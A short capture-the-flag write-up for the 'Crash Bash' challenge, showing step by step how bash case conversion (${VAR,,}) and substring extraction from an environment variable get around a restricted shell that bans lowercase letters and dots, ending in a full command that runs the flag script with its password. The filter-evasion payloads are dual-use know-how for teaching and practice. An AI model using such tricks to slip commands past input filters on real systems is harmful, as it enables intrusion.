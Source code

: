# [HE2023] Crash Bash

- The goal is to enter the command `/printflag.sh B4sh_br0TH3rs`, but some characters are forbidden, including all lowercase letters.

```bash
crashbash$ pwd
Invalid input, bash crashed!
```

- However, uppercase letters are allowed, so we are going to exploit that to write most of the command.

- Using the syntax `${variable,,}` in bash, we can convert any variable from uppercase to lowercase.

```bash
crashbash$ VAR="PWD" && ${VAR,,}
/tmp/ojwfwoqkpfhzwctiushvljkhzkvpwnnz
```

- Nice, we managed to execute a command! Now we need to write `/printflag.sh`. However, there's an issue: `"."` is forbidden.

```bash
crashbash$ VAR="/PRINTFLAG.SH" && ${VAR,,}
Invalid input, bash crashed!
```

- Maybe there is an env variable containing `"."` we could use?

```bash
crashbash$ VAR="ENV" && ${VAR,,}
REMOTE_HOST=123.123.123.123
HOSTNAME=5f91b08df6b8
PWD=/tmp/pghqzrrwsjcaxwjelijvvtiorwuzjvqp
HOME=/root
SHLVL=1
LC_CTYPE=C.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

- There is! `$REMOTE_HOST` seems to contain our current IP address. Let's use that to extract our precious `"."`.

- We use `${REMOTE_HOST:3:1}` to only retrieve the 4th character of that variable, since our IP starts with `"123."`.

```bash
crashbash$ A="/PRINTFLAG" B="SH" && ${A,,}${REMOTE_HOST:3:1}${B,,}
You may not pass!
```

- Alright, we managed to execute the shell script! Now we only need to add the password, which is pretty easy, nothing new.

```bash
A="/PRINTFLAG" B="SH" C="SH_BR" D="RS" && ${A,,}${REMOTE_HOST:3:1}${B,,} B4${C,,}0TH3${D,,}
```

- After executing the shell script with the password, we get the flag.
